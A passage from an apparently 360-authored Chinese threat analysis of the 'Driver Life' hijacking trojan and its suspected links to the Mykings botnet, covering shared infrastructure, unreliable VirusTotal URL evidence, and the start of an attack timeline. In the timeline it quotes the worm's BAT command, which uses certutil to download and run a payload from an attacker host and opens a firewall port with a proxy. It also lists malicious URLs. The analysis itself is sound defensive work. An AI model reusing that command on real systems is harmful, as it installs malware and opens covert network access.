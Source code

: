 [![](https://p4.ssl.qhimg.com/t01371a8c6b77a4e12e.png)](https://p4.ssl.qhimg.com/t01371a8c6b77a4e12e.png)

Mykings访问hxxp://js.mys2016.info:280/v.sct这个URL的样本如下：

[![](https://p0.ssl.qhimg.com/t01aceecd2ad11e2ce8.png)](https://p0.ssl.qhimg.com/t01aceecd2ad11e2ce8.png)



## 可疑的关联性

基于以上的网络基础设施的重叠和访问请求的相似性，我们是否就可以得到“驱动人生”劫持事件与Mykings背后的团伙是同一个呢？我们的观点是：不一定。

Mykings会配合云端机制发起扫描然后尝试扫描和入侵，因此被捕获的样本量相当多; 驱动人生事件的永恒之蓝挖矿蠕虫也会主动进行传播，被捕获的样本量也不少。但是， hxxp://js.haqo.net:280/v.sct这个链接指向文件无法下载，2018-12-25日VT上首次出现这个URL时，甚至连TCP连接都没能建立起来，网络上也并没有留存任何请求了这个URL的样本或者URL的相应数据。

[![](https://p1.ssl.qhimg.com/t0151c5148dba85e4ff.png)](https://p1.ssl.qhimg.com/t0151c5148dba85e4ff.png)

而VT对于URL的检测是不可靠的（特别是没有获取到相应数据的时候），任何人都可以构造一个完全不存在URL提交检测，这样在搜索对应的域名/IP时，URL或者Downloaded Files将会显示出被构造的URL。

例如随意输入hxxp://js[.]haqo.net:6252/admin.asp，尽管请求没成功什么数据也没有返回，依然有三个引擎产生了告警。而再次搜索js.haqo.net时，关联URL中已然多了一条: hxxp://js[.]haqo.net:6252/admin.asp

[![](https://p2.ssl.qhimg.com/t011e20a517e7b61dfb.png)](https://p2.ssl.qhimg.com/t011e20a517e7b61dfb.png)

[![](https://p5.ssl.qhimg.com/t012b964fb90c9b054f.png)](https://p5.ssl.qhimg.com/t012b964fb90c9b054f.png)

所以尽管看似“驱动人生”劫持木马的幕后团伙跟Mykings有千丝万缕的关系，但是并没有一个确切的能够提供实锤的证据表明他们是同一个团伙或者两个团伙有交流沟通：尽管一些没有被使用的子域名解析到了Mykings掌握的IP上，而且使用的时间段有所重合；两个团伙已知的恶意代码没有太多的相似之处；VT上js.haqo.net的某个URL构造得与Mykings相关性非常强，但却没有实际返回的数据可以用来确认“驱动人生”劫持木马利用到了Mykings的IP对应的服务器资源。



## 时间线

目前360对于“驱动人生”劫持木马事件做了一系列的分析，在这里简单总结一下“驱动人生”时间的时间线：

### 2018年12月14日

驱动人生攻击爆发，内网传播用的永恒之蓝漏洞，下载的payload地址：http://dl.haqo.net/dl.exe

当时的永恒之蓝的攻击模块的BAT内容如下：

cmd.exe /c certutil -urlcache -split -f http://dl.haqo.net/dl.exe c:/install.exe&amp;c:/install.exe&amp;netsh firewall add portopening tcp 65531 DNS&amp;netsh interface portproxy add v4tov4 listenport=65531 connectaddress=1.1.1.1 connectport=53

而从该地址下载的dl.exe（f79cb9d2893b254cc75dfb7f3e454a69）的C2地址为：

[![](https://p2.ssl.qhimg.com/t01a88026588f422fac.png)](https://p2.ssl.qhimg.com/t01a88026588f422fac.png)

### 2018年12月16日
